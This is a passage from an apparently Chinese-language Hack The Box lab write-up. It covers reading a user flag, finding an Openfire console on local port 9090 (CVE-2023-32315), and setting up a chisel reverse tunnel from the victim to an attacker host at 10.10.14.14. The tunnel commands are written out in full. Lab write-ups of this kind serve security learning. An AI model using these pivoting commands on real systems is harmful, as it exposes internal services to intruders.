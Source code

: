 svc_openfire用户的桌面就有flag：
```powershell
PS C:\Users\svc_openfire\desktop> ls


    Directory: C:\Users\svc_openfire\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        3/24/2024   3:20 AM             34 user.txt                                                              


PS C:\Users\svc_openfire\desktop> cat user.txt
501 (...) d2e
```





## Privilege Escalation

### Internal Recon

在端口信息中发现开放了本地端口9090——即最开始我们谷歌搜到的`CVE-2023-32315`。原来是在这里用啊……

```
PS C:\Users\svc_openfire\Desktop> netstat -anop tcp |findstr LISTEN
 (...)
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3128
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3128
```

### PoC (CVE-2023-32315 like)

#### chisel配置端口转发

首先配置端口转发，本来想跟[之前一样用SilverC2](./HTB-OnlyForYou.md#sliver-c2)或msf，正好在桌面看到前人留下的chisel（文件上传方法在此也就省略了，可参考[HTB-Authority](./HTB-Authority.md#certify)），以前也没用过，那这次就试试chisel吧。  
其实看help没太懂怎么用，搜了下，还得是[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#port-forwarding)啊：
```
chisel server -p 12312 --reverse    #Server -- Attacker
./chisel.exe client 10.10.14.14:12312 R:9090:127.0.0.1:9090    #Client -- Victim
```

配置完成后浏览器访问，成功显示console登录界面：

